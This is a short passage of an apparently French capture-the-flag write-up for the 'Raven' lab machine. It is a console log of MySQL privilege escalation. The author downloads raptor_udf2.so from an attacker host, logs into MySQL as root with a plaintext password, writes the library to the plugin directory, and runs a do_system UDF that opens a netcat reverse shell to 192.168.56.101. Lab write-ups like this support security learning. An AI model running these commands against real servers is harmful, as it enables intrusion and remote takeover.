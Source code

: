 ... puis les commandes à réaliser sur le serveur Raven: 2...

```console

www-data@Raven:/tmp$ wget -q http://192.168.56.101:8000/raptor_udf2.so
wget -q http://192.168.56.101:8000/raptor_udf2.so

www-data@Raven:/tmp$ ls
ls
raptor_udf2.so

www-data@Raven:/tmp$ mysql -u root -p
mysql -u root -p
Enter password: R@v3nSecurity

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 38
Server version: 5.5.60-0+deb8u1 (Debian)

--snip--

mysql> use mysql;
use mysql;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> create table foo(line blob);
create table foo(line blob);
Query OK, 0 rows affected (0.01 sec)

mysql> insert into foo values(load_file('/tmp/raptor_udf2.so'));
insert into foo values(load_file('/tmp/raptor_udf2.so'));
Query OK, 1 row affected (0.00 sec)

mysql> select * from foo into dumpfile '/usr/lib//mysql/plugin/raptor_udf2.so';
<to dumpfile '/usr/lib//mysql/plugin/raptor_udf2.so';                        
Query OK, 1 row affected (0.00 sec)

mysql> create function do_system returns integer soname 'raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
Query OK, 0 rows affected (0.00 sec)

mysql> select * from mysql.func;
select * from mysql.func;
+-----------+-----+----------------+----------+
| name      | ret | dl             | type     |
+-----------+-----+----------------+----------+
| do_system |   2 | raptor_udf2.so | function |
+-----------+-----+----------------+----------+
1 row in set (0.00 sec)

mysql> select do_system('nc -e /bin/bash 192.168.56.101 12345');
select do_system('nc -e /bin/bash 192.168.56.101 12345');
^C
```
